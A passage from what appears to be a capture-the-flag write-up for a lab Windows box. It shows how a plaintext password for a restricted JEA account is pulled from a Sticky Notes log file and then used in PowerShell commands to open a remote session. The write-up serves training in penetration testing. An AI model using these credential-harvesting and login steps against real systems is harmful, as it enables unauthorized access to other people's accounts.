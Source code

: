 **JEA Session Configuration** of the user _jea_test_account_:
```
type jea_test_account.pssc | select-string -notmatch "^#" | select-string .
```
```
@{
SchemaVersion = '2.0.0.0'
GUID = 'd6a39756-aa53-4ef6-a74b-37c6a80fd796'
Author = 'cube0x0'
SessionType = 'RestrictedRemoteServer'
RunAsVirtualAccount = $true
RoleDefinitions = @{
    'htb\jea_test_account' = @{
        'RoleCapabilities' = 'jea_test_account' } }
LanguageMode = 'NoLanguage'
}
```

This means that the user _jea_test_account_ is in _NoLanguage_ mode, but can only execute the _Check-File_ function.
As we don't have this users password yet, this will be abused later and the box has to be enumerated for credentials.

In the folder _C:\Users\k.svensson\Deskop_ is a link file _Sticky Notes.lnk_ which is for the **Sticky Notes** Windows program that may contain valuable information.
The contents of the sticky notes are in _C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb\000003.log_:
```
type 000003.log | Format-Hex
```
```
00000080   2E 00 01 31 3F 01 01 7B 22 66 69 72 73 74 22 3A  ...1?..{"first":                       
00000090   22 3C 70 3E 43 72 65 64 65 6E 74 69 61 6C 73 20  "<p>Credentials                        
000000A0   66 6F 72 20 4A 45 41 3C 2F 70 3E 3C 70 3E 6A 65  for JEA</p><p>je                       
000000B0   61 5F 74 65 73 74 5F 61 63 63 6F 75 6E 74 3A 41  a_test_account:A
000000C0   62 21 51 40 76 63 67 5E 25 40 23 31 3C 2F 70 3E  b!Q@vcg^%@#1</p>                       
000000D0   22 2C 22 62 61 63 6B 22 3A 22 72 67 62 28 32 35  ","back":"rgb(25
```

One of the notes has the credentials of the user _jea_test_account_:
> jea_test_account:Ab!Q@vcg^%@#1

I will use **PowerShell for Linux** again to create a secure string for the user and start a PowerShell session:
```powershell
$pass = ConvertTo-SecureString 'Ab!Q@vcg^%@#1' -asplaintext -force
$cred = New-Object System.Management.Automation.PSCredential('htb\jea_test_account', $pass)
Enter-PSSession -Computer 10.10.10.210 -Credential $cred -Authentication Negotiate -ConfigurationName jea_test_account
```

It starts a shell on the box as the user _jea_test_account_.

### Getting the Root Flag

The command `Get-Command` shows the same eight commands as the other user but including the _Check-File_ function that is shown in the **JEA Role Capabilities**.
